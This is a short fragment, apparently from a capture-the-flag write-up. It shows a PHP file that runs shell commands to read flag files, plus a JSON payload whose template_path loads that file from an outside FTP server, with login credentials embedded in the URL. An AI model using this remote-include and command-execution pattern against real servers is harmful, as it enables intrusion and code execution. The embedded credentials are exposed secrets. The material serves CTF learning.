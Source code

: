 
https://sftpcloud.io/tools/free-ftp-server

FTP upload
![alt text](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-21.png)



![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-17.png)

```php
<?php
system("ls -la /flag*");
system("cat /flag*");
?>
```

```json
{
  "template_path": "ftp://da192e7de042469196ddc45e20c9eb88:i2rMACU1fteQbrIEqh3zAqdNezrtTpKH@eu-central-1.sftpcloud.io"
}
```